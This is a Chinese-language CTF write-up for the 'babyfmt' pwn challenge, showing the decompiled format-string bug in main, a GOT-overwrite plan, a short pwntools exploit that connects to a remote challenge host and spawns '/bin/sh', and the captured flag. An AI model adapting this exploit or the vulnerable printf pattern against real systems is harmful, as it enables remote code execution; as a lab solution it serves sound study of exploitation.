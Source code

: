 # babyfmt

菜狗终于记得有got表这回事了。

-   Arch:     i386-32-little
    <br>RELRO:    Partial RELRO
    <Br>Stack:    No canary found
    <Br>NX:       NX enabled
    <BR>PIE:      No PIE (0x8048000)

就开了个nx，还不重要。这次的Partial RELRO我不会再忘了，看看main。

```c
void main(undefined4 param_1,undefined4 param_2)

{
  char *__s;
  int in_GS_OFFSET;
  char local_114 [256];
  undefined4 local_14;
  undefined *puStack12;
  
  puStack12 = (undefined *)&param_1;
  local_14 = *(undefined4 *)(in_GS_OFFSET + 0x14);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  __s = (char *)malloc(0x10);
  sprintf(__s,"%p",backdoor);
  printf("gift: %p\n",__s);
  do {
    memset(local_114,0,256);
    read(0,local_114,255);
    printf(local_114);
  } while( true );
}
```

粗略分析程序，main函数内部有无限循环的格式化字符串漏洞。同时还给了个后门函数backdoor，直接getshell。gift是陷阱，printf("gift: %p\n", s);打印的是s这个字符串指针的值，也就是malloc给的地址，如果要打印backdoor地址应该为printf("gift: %s\n", s);。Partial RELRO代表got表可写，你看那个printf是不是和system很像，直接把printf的got表改成system，这样调用的就是system了。[ctf wiki](https://ctf-wiki.org/en/pwn/linux/user-mode/fmtstr/fmtstr-example/#hijack-got)有一模一样的题，还更难。直接用pwntools自带的fmtstr_payload就行了。

```python
from pwn import *
p=remote("43.136.137.17",3913)
payload=fmtstr_payload(11,{0x0804a010:0x0804859b})
p.sendafter("\n",payload)
p.send('/bin/sh')
p.interactive()
```

- ### Flag
  > moectf{h4ck3d_by_form4t_str1ng}